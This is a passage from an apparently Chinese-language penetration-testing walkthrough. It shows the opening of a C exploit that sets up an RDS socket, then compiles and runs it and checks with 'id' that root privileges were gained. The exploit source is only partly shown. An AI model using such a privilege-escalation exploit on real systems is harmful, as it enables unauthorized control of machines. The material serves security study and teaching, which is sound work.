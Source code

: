 ```c

# include <sys/utsname.h>

# define RECVPORT 5555

# define SENDPORT 6666

int prep_sock(int port)
{
int s, ret;
struct sockaddr_in addr;
s = socket(PF_RDS, SOCK_SEQPACKET, 0);
if(s < 0)
{
printf(“[*] Could not open socket.\n”);
exit(-1);
}
memset(&addr, 0, sizeof(addr));
```


通过以上代码我们发现该exp是C语言开发的，我们需要将他编译成elf格式的,命令如下:

```shell
gcc roro.c –o roro
```

接下来执行编译好的exp

```shell
./roro
```

![](渗透测试之从收集信息到入侵提权/32.png) 
执行完成之后我们输入id命令

```shell
id
```

我们发现我们已经是root权限了
